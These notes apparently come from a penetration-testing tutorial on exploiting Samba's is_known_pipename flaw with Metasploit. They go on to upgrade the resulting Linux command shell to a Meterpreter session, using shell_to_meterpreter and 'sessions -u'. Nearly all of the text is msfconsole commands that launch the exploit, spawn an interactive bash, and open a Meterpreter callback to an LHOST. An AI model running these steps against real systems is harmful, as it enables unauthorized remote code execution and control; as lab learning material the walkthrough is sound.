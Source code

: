 [Samba is_known_pipename() Arbitrary Module Load](https://www.rapid7.com/db/modules/exploit/linux/samba/is_known_pipename/)

This exploit module allow us to upload an shard object or a shared library.

```
search type:exploit samba
use exploit/linux/samba/is_known_pipename
show options
run 
```

This is a typical Linux command shell.

```
ls
pwd
/bin/bash -i
```

Put this in the background using the `Ctrl+z` keyboard combination. 

```
sessions
```

We can upgrade this particular command shell session into a Meterpreter shell through the use, firstly, of a post-exploitation module.

```
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
show options
set SESSION 1
set LHOST eth1
run
```

That will upgrade the command shell into a Meterpreter session.

```
sessions
sessions 2
exit
```

I'm going to exit or close this particular Meterpreter session. `exit` will kill the Meterpreter session.

How we can shave off that entire process of utilizing a post-exploitation module.

```
sessions -h
```

[MSFCONSOLE COMMANDS](https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/)

```
msf > sessions -h
Usage: sessions [options] or sessions [id]

Active session manipulation and interaction.

OPTIONS:
    -u   Upgrade a shell to a meterpreter session on many platforms
    -u 在许多平台上将 shell 升级为 meterpreter 会话
```
